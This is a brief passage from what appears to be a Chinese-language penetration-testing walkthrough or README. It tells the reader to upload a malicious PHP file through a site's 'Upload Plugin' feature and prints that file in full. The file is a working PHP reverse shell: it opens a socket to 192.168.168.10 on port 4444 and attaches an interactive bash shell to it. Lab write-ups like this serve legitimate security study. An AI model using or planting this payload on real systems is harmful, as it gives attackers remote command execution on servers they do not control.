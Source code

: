    ![1748229282868](image/readme/1748229282868.png)
   - 点击 `Upload Plugin`，上传包含一句话木马的 PHP 文件。
   ![1748229289429](image/readme/1748229289429.png)
   - 木马文件内容如下：
        ```php
        <?php
        $sock = fsockopen("192.168.168.10", 4444);
        $proc = proc_open("bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
        ?>
        ```